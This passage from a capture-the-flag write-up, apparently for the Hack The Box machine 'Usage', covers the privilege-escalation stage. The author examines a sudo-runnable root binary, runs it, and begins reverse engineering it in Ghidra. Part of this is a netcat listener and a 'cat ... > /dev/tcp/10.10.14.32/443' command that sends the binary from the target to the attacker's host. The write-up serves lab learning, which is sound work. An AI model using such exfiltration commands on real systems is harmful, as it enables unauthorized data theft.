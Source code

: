 ```bash
xander@usage:~$ ls -la /usr/bin/usage_management
-rwxr-xr-x 1 root root 16312 Oct 28 07:22 /usr/bin/usage_management
xander@usage:~$ file /usr/bin/usage_management
/usr/bin/usage_management: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fdb8c912d98c85eb5970211443440a15d910ce7f, for GNU/Linux 3.2.0, not stripped
```

Test out the binary

```bash
xander@usage:~$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 
```

Transfer the binary for further reverse engineering

```bash
┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ nc -lvnp 443 > usage_management
```

```bash
xander@usage:~$ cat /usr/bin/usage_management > /dev/tcp/10.10.14.32/443
```

### Reverse engineer usage_management binary

Load the binary into **ghidra**

![](/assets/obsidian/b3a0242895816eb9536e52978245347c.png)
